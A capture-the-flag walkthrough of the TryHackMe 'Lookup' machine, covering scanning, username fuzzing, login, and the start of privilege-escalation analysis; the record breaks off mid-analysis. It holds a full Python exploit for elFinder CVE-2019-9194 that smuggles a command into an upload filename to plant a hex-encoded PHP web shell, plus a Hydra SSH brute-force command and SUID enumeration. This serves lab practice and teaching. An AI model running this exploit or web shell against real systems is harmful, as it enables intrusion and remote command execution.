# LOOKUP ROOM TryHackMe
##  *By tunlp*


---
## INTRODUCTION
This *'Room'* is a vulnerable machine provided by the TryHackMe platform for practicing ethical hacking and pentesting. As a *'hint'* it tells us that we should practice our enumeration skills on a *'boot-to-root machine'*, so it will probably also let us escalate privileges to Root.
---
## Walkthrough
To begin, I have to start the victim machine and also connect to the platform via OpenVPN.
We are given the concept of 'enumeration' and an IP (10.130.173.23). To discover exposed services and the TCP connections it makes, I used `nmap` to run a scan.
```sh
nmap -sS -sV 10.128.155.108
```
- `-sS` : Sends TCP packets with a 'SYN' header that initiates a connection.
- `-sV` : Probes open ports and resolves the service.


The reconnaissance shows 2 active services with open ports: `ssh` and `http` on ports **22** and **80** respectively. I access the http web page provided on port 80:



The page returns `Server Not Found`, but in the URL field we find `lookup.thm`. To resolve the domain name, I add the IP and the name to `/etc/hosts` with the command `sudo vim /etc/hosts`


To gather more data about possible subdomains/directories, I ran fuzzing with `ffuf`:

```sh
sudo ffuf -w /home/user/Documents/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://lookup.thm/FUZZ -e .php > fuzz_domain_results.txt 
```
- `-u` : URL
- `-e .php`: php extensions

As a result, I was able to find: `index.php` and `login.php`.


Next, I tried a 'fuzz' to enumerate valid users against a random basic password. After a couple of attempts, I used the password `password123` on `http://lookup.thm/login.php`.

```sh
sudo ffuf -w /home/neurone/Documents/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://lookup.thm/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=password123" -ac
```


As a result, I find the user `jose` with `HTTP:302`. With this information I can try logging in with the credentials `username:jose & password:password123`

 

The login is successful and redirects me to `http://files.lookup.thm`, with `Server not Found`, so I add this domain name along with `lookup.thm` in `/etc/hosts/`



After updating `/etc/hosts/` I see that I can now view the website's 'Panel' which contains `Web-Files` that may be important for the process, such as: `admin`, `mysql`; some have a padlock on the icon, except `credentials.txt`, which may give more clues.



On opening `credentials.txt` I find the following text: `think : nopassword`.
On the other hand, I also try to read the files that have a padlock, and it lets me view certain information that does not point to a concrete clue, only values that we might perhaps consider. I focused the search on the documents: `admin.txt`, `root.txt`, `mysql.txt` and `administrator.txt` with their respective outputs:

- admin.txt:
```
pectic
agretha
only-begotten
renewable
```
- root.txt
```
symmetrical
volumetrically
```

- mysql.txt
```
acculturation
rotterdam
idiosyncratically
```
- administrator.txt
```
rycca
show-offs
overcast
packinghouse
```
Convinced that this information is NOT relevant, I continue to investigate more about the page's software.



The software behind the web application's dashboard (`elFinder 2.1.47`). I ran a browser search for '`elFinder CVE`', finding a CVE (`CVE-2019-9194`) that apparently allows command injection in web applications.



Investigating the exploit's functionality, I make adjustments to some variables since the first execution resulted in an error due to a parameter that is obsolete in newer versions of Python.

```py
# CVE: CVE-2019-9194
import requests
import json
import sys
payload = 'IMAGE.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > IMAGE.php;echo IMAGE.jpg'
def usage():

    if len(sys.argv) != 2:

        print ("Usage: python exploit.py [IP_OR_URL]")

        sys.exit(0)

def upload(url, payload):

    files = {'upload[]': (payload, open('IMAGE.jpg', 'rb'))}

    data = {"reqid" : "1693222c439f4", "cmd" : "upload", "target" : "l1_Lw", "mtime[]" : "1497726174"}

    r = requests.post("%s/php/connector.minimal.php" % url, files=files, data=data)

    j = json.loads(r.text)

    return j['added'][0]['hash']

def imgRotate(url, hash):

    r = requests.get("%s/php/connector.minimal.php?target=%s&width=539&height=960&degree=180&quality=100&bg=&mode=rotate&cmd=resize&reqid=169323550af10c" % (url, hash))

    return r.text

def shell(url):

    r = requests.get("%s/php/IMAGE.php" % url)

    if r.status_code == 200:

       print ("[+]-- Owned  --")

       print ("[+] ENTERING SHELL . . .")

       while 1:

           try:

               cmd = input("$ ")

               r = requests.get("%s/php/IMAGE.php?c=%s" % (url, cmd))

               print (f"{r.text}")

           except KeyboardInterrupt:

               sys.exit("\n-- FINISHED --")

    else:

        print ("[*] NOT VULNERABLE")

def main():

    usage()

    url = sys.argv[1]

    print ("[*] UPLOADING PAYLOAD . . .")

    hash = upload(url, payload)

    print ("[*] RUNNING PAYLOAD . . .")

    imgRotate(url, hash)

    shell(url)

if __name__ == "__main__":

    main()
```
The exploit uses a payload image. Since the code alters values of the image's binary, we can use any image because the server needs to identify it as one.

I run the exploit targeting `http://files.lookup.thm/elFinder/`. As a result, I can see the exploit was successful: being inside the server's `shell`, I verify with `ifconfig` that the IP matches the server's.



Once inside the server `$ shell`, I try to enumerate and read files that could be important, starting with ssh:




On the other hand, I try to enumerate `/etc/passwd`, which comes out 'valid', and so a `cat /etc/passwd` identifying users and their respective IDs.



Since I can read `/etc/passwd`, I can surely enumerate the users and see their content:



I find 3 possible users on the server: `ssm-user`, `think` and `ubuntu`. `think` is known (in /elFinder/credentials.txt - 'think : nopassword') and `ubuntu` is the 'best candidate' to be the root user because of the default of an Ubuntu Server. Once I knew possible ssh users, I tried to run a password bruteforce with `Hydra`:

```sh
hydra -l think/ubuntu/root -P /wordlist.txt ssh://<IP_MACHINE>
```
After trying with a small and medium wordlist, I realized that 'think : nopassword' was a signal not to try the password bruteforce path.

Considering that I was connected to `$Shell`, I could navigate and enumerate directories, read and execute certain commands and files. I need to know the permissions I have. But not mine on the system, rather "Which files on the system might I have permissions for but are not owned by my current user `www-data`?".
For this, I look with `ls -l` for files that contain root's `SUID` (something like `-rwsr-xr-x ... root root ...`). This way I can find files that have `root` permissions that I can execute with fewer privileges.

I run a specific search for files on the system with `find /usr -type f -perm -4000 -ls`
- /usr: path of user files.
- find: Search that matches parameters.
- -type f: Limits the search to 'files' (Excludes directory names)
- -perm -4000: Searches for files that have the SUID bit enabled in the fourth (4) position in the octal permission format (-rw`[s]`r-xr--)  



I look at the root directories in the output, I see `/usr/bin`, `/usr/sbin` and `/usr/lib`. The first, `/usr/bin`, doesn't interest me much; when I earlier read `/usr/bin/passwd`, it wasn't extremely useful information, and `/usr/bin` in Linux is the path for files shared among users, for which I already have certain permissions. The third, `/usr/lib`, could be the last of the 3 options. The second, `/usr/sbin`, is the one that really interests me, since it is the path for the system administrator's files with `root` permissions and the exact 'match' for the position of the `SUID` bit.



With a `cat /usr/sbin/pwm` or `strings /usr/sbin/pwm` I observe the following fragment:



I identify that `/usr/sbin/pwm` interacts with `/.passwords`. Since it is an executable, I try to run it, which results in an error because it cannot find `/.passwords` for the user with `ID: www-data`.



Curiously, it indicates a non-numeric ID and that it uses the `id` command to extract the *username and user ID (UID)*, so I do the same in the terminal.



'33', my user's `id` number. I keep these data in mind and continue investigating `/usr/sbin/pwm` with the `file` command to learn about the binary.



I see it has a `setgid` parameter, and another, `setuid`. Also, `ELF`, which indicates these are functions of an 'ELF binary'. On the other hand, `dynamically linked` indicates it makes dynamic calls to external functions, and `interpreter /lib64/ld-linux..` indicates it can read and execute code. Also, `not stripped`, preserving functions.

I repeat `strings /usr/sbin/pwm` to see how `pwm` processes the value of the `id`, and I see it does so with `uid=%u(%[^])` and also `GCC: (Ubuntu 9.4 ...)`.  



`GCC` is a `C` language compiler, so most likely the source code is in C. `uid=%u(%[^])` => `uid` is the variable and `%u(%[^])` interacts in some way with the `id` command.

Before understanding the function, I remembered the binary's dynamic linking and went back to the strings of `/usr/sbin/pwm`. To find some clue about the libraries it imports, I identify the pattern `xxxxx@@GLIBC_2.2.5`. I thought "these are surely functions from the 'GLIBC' library version 2.2.5". Using `grep`.



I noticed that `fopen@@...` and `__libc_start_main@@...` appear to be functions. I wondered whether functions like `popen` or `fclose` could be exactly the ones being used by the binary. I searched for commands to analyze binaries and learned that `objdump` can give very detailed information. First I look at the functions defined by the binary with the `-t` flag.

